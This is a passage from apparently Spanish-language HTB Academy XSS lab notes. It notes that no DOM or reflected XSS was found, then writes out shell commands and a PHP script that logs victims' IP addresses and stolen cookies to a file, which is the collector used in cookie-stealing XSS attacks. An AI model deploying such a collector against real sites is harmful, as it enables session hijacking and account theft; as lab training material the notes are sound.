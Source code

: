 ![alt text](../assets/images/HTB_Academy_XSS/image-58.png)

No se detectan Vulnerabilidades DOM o Reflected.

Creare un script que guarde la cookie

```sh
mkdir /tmp/tmpserver
cd /tmp/tmpserver
touch index.php
nano index.php
```


```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
